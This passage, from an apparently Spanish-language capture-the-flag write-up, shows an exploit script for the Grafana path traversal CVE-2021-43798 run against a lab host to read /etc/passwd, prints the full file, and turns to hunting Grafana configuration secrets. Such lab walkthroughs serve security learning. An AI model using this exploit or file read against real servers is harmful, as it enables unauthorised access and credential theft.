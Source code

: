 Ahora intentamos leer el archivo _/etc/passwd_ y lo conseguimos:

```shell
❯ python3 CVE-2021-43798.py -t 'http://10.10.11.183:3000' -f '/etc/passwd'

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
grafana:x:113:118::/usr/share/grafana:/bin/false
mysql:x:114:119:MySQL Server,,,:/nonexistent:/bin/false
consul:x:997:997::/home/consul:/bin/false
```
{: .nolineno}

> Aquí tienes un articulo que estudia a detalle la vulnerabilidad anterior: [https://j0vsec.com/post/cve-2021-43798/](https://j0vsec.com/post/cve-2021-43798/)
{: .prompt-info}

Ya que podemos leer archivos, nuestro siguiente paso es **buscar archivos interesantes sobre cualquier aplicación del sistema**. Y ya que nuestro objetivo fue `Grafana`, ahora podemos buscar archivos de configuración que contengan datos importantes:
